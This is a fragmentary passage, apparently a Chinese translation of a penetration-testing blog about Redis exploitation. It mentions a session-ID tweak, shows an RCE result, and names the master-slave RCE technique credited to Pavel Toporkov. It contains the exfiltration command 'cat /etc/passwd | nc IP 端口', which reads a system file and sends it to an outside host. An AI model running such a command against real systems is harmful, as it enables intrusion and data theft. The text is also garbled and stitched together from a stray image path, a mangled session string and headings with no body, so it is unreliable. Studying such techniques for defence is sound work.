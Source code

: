 **注**:原 Session-Id*Session:8 ac1c b48–5064–4067–9e 43-ed 0 df 685642****6***改为*Session:8 ac1c b48–5064–4067–9e 43-ed 0 df 685642*

**![](img/cb7abe12a5098900bfbfd386301bb7d7.png)**

**Rce 结果，cat /etc/passwd | nc IP 端口**

# **Redis 主从 RCE**

**这种后开发技术是由 Pavel Toporkov 引入的。**

**![](img/a7f55ec1c137faf759822b01dd0c7d9a.png)**

**我会写一篇单独的博客来解释更多关于这种后利用技术的内容。**

# **Redis 作为作业队列**
